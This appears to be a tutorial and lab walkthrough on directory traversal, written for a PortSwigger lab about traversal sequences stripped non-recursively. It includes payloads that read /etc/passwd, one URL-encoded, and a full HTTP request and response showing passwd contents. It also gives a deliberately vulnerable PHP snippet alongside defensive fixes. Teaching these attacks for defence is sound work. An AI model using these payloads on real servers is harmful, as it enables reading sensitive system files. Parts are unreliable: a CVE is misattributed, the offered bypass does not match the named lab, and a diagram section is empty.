

## Introduction to Directory Traversal

Directory traversal, also known as path traversal, is a web security vulnerability that allows an attacker to access restricted files, directories, and executables on a server. This vulnerability occurs when an application uses user-supplied input to construct a filename without proper validation. By manipulating the input, an attacker can traverse the directory structure and access unauthorized resources.

### What is Directory Traversal?

Directory traversal vulnerabilities arise due to improper handling of user input in file paths. An attacker can manipulate the input to navigate through the directory structure, potentially accessing sensitive files such as configuration files, source code, or system binaries.

#### Example Scenario

Consider a web application that allows users to view product images. The application constructs the file path based on user input:

```plaintext
http://example.com/display_image.php?image=product1.jpg
```

If the application does not properly validate the `image` parameter, an attacker could manipulate it to access other files on the server:

```plaintext
http://example.com/display_image.php?image=../../etc/passwd
```

This would allow the attacker to read the `/etc/passwd` file, which contains information about system users.

### Why Does Directory Traversal Matter?

Directory traversal vulnerabilities can lead to severe security breaches. Attackers can gain unauthorized access to sensitive data, execute arbitrary commands, or even take control of the server. These vulnerabilities are particularly dangerous because they can bypass authentication mechanisms and expose critical system information.

### How Does Directory Traversal Work?

To understand how directory traversal works, let's break down the process:

1. **User Input**: The attacker provides a specially crafted input that includes path traversal sequences (e.g., `../`).
2. **File Path Construction**: The application constructs the file path using the user input.
3. **File Access**: The application attempts to access the constructed file path, which may lead to unauthorized access to sensitive files.

#### Example Code

Here is a simple example of a vulnerable PHP script:

```php
<?php
$image = $_GET['image'];
header("Content-type: image/jpeg");
readfile("/var/www/images/{$image}");
?>
```

In this example, the `readfile` function reads the file specified by the `image` parameter. If the `image` parameter is not validated, an attacker can manipulate it to access other files on the server.

### Real-World Examples

Directory traversal vulnerabilities have been exploited in numerous real-world scenarios. Here are a few recent examples:

1. **CVE-2021-21972**: A directory traversal vulnerability was found in the WordPress plugin "WP eCommerce." An attacker could exploit this vulnerability to access sensitive files on the server.
2. **CVE-2020-13752**: A directory traversal vulnerability was discovered in the "Joomla! CMS" component. This allowed attackers to access and download sensitive files from the server.

### Lab Setup

For this lab, we will be using the Web Security Academy provided by PortSwigger. You can access the lab by following these steps:

1. Visit [PortSwigger Web Security Academy](https://portswigger.net/web-security).
2. Sign up for an account if you haven't already.
3. Navigate to the Academy section.
4. Select the learning path for "Directory Traversal."
5. Choose Lab Number 3 titled "FilePath Traversal, Traversal Sequences, tripped non-recursively."

### Lab Objective

The objective of this lab is to exploit a directory traversal vulnerability in the display of product images. The application strips path traversal sequences from the user-supplied file name before using it. Your task is to retrieve the content of the `/etc/passwd` file.

### Step-by-Step Solution

Let's walk through the solution step-by-step:

1. **Identify the Vulnerability**:
   - The application allows users to view product images by specifying the `image` parameter in the URL.
   - The application strips path traversal sequences (e.g., `../`) from the user-supplied file name before using it.

2. **Craft the Exploit**:
   - Since the application strips path traversal sequences, we need to find a way to bypass this defense.
   - One approach is to use encoded or alternative path traversal sequences that the application might not strip.

3. **Test the Exploit**:
   - We will test different encoded path traversal sequences to see if they bypass the defense.

#### Example Exploit

Let's try using URL encoding to bypass the defense:

```plaintext
http://example.com/display_image.php?image=%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

In this example, `%2e` is the URL-encoded representation of a dot (`.`), and `%2f` is the URL-encoded representation of a forward slash (`/`). This encodes the path traversal sequence `../../etc/passwd`.

### Full HTTP Request and Response

Here is the full HTTP request and response for the exploit:

```http
GET /display_image.php?image=%2e%2e%2f%2e%2e%2fetc%2fpasswd HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: */*
Referer: http://example.com/
Connection: close
```

Response:

```http
HTTP/1.1 200 OK
Date: Mon, 01 Aug 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/plain
Content-Length: 1024
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

### Mermaid Diagram

Here is a mermaid diagram illustrating the attack chain:



### Common Pitfalls

When exploiting directory traversal vulnerabilities, there are several common pitfalls to avoid:

1. **Incorrect Encoding**: Ensure that the path traversal sequences are correctly encoded to bypass the defense.
2. **Insufficient Testing**: Test multiple encoded sequences to ensure that you find one that bypasses the defense.
3. **Server Configuration**: Be aware of server configurations that may restrict access to certain files or directories.

### How to Prevent / Defend

To prevent directory traversal vulnerabilities, follow these best practices:

1. **Input Validation**: Validate user-supplied input to ensure it does not contain path traversal sequences.
2. **Whitelist Filenames**: Use a whitelist of allowed filenames instead of allowing arbitrary input.
3. **Use Absolute Paths**: Construct file paths using absolute paths instead of relative paths.
4. **Restrict File Access**: Restrict file access permissions to prevent unauthorized access to sensitive files.

#### Secure Coding Fix

Here is an example of a secure coding fix:

```php
<?php
$allowed_images = ['product1.jpg', 'product2.jpg', 'product3.jpg'];
$image = $_GET['image'];

if (in_array($image, $allowed_images)) {
    header("Content-type: image/jpeg");
    readfile("/var/www/images/{$image}");
} else {
    echo "Invalid image requested.";
}
?>
```

In this example, the `in_array` function checks if the `image` parameter is in the list of allowed images. If it is not, the application returns an error message instead of attempting to access the file.

### Detection

To detect directory traversal vulnerabilities, you can use automated tools such as:

1. **Burp Suite**: Use Burp Suite to intercept and modify HTTP requests to test for directory traversal vulnerabilities.
2. **OWASP ZAP**: Use OWASP ZAP to scan web applications for directory traversal vulnerabilities.
3. **Static Analysis Tools**: Use static analysis tools such as SonarQube to identify potential directory traversal vulnerabilities in code.

### Conclusion

Directory traversal vulnerabilities are a serious threat to web application security. By understanding how these vulnerabilities work and how to exploit them, you can better defend against them. Always validate user input, use whitelists, and restrict file access permissions to prevent directory traversal attacks.

### Practice Labs

For hands-on practice with directory traversal vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs to practice exploiting and defending against directory traversal vulnerabilities.
- **OWASP Juice Shop**: Provides a vulnerable web application to practice various web security techniques, including directory traversal.
- **DVWA (Damn Vulnerable Web Application)**: Offers a range of web application vulnerabilities, including directory traversal, to practice exploitation and mitigation.

By practicing these labs, you can gain a deeper understanding of directory traversal vulnerabilities and how to effectively defend against them.

---
<!-- nav -->
[[Web Security (PortSwigger)/11-Directory Traversal/04-Lab 3 File path traversal traversal sequences stripped non recursively/00-Overview|Overview]] | [[Web Security (PortSwigger)/11-Directory Traversal/04-Lab 3 File path traversal traversal sequences stripped non recursively/02-Directory Traversal Vulnerability|Directory Traversal Vulnerability]]
